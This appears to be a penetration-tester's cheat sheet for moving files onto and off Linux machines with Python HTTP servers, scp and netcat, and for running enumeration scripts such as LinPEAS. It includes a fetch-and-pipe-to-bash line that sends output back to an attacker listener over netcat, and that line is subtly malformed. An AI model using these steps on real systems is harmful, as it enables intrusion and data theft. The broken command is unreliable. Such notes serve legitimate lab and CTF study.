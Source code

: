 
## *Transferring Files On and Off Linux Machines:* ##
- ### *Python* ###
```bash
# Change to the folder that the file is in.
python -m SimpleHTTPServer 8080
python3 -m http.server 8080

#Then use 'wget <ip>:<port>/<file>' to download.
```

- ### *SCP* ###
```bash
#REQUIRES an ssh private key or a password.

#From your machine
scp <file> user@<remoteip>:<dest path on remote host>

#To your machine
scp user@<remoteip>:<path on remote host> <dest path on your machine>
```

- ### *Netcat* ###
```bash
#On receiving machine:
nc -lvnp 8080 > file.out

#On Sending Machine:
nc <receiving machine IP> 8080 < file
```

## *Automated Enumeration Scripts:* ##
Enumeration scripts are useful as they are pre set and run the same every time. They are to be transferred onto the box, piped directly into bash so we do not write to the file system. We could also send direct back through a netcat port to our machine to store there:
```bash
# start a python http server
python3 -m http.server 80

# run a listener on your machine:
nc -lvnp 53 > linpeas.output

#
wget http://0.0.0.0:8080/linpeas.sh | bash > nc 10.0.0.1 53
```
  - [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  - [LinENUM](https://github.com/rebootuser/LinEnum)
  - [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)
  - [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) - suggests exploits to use based on the box you are on. Saves a TONNE of time.

  
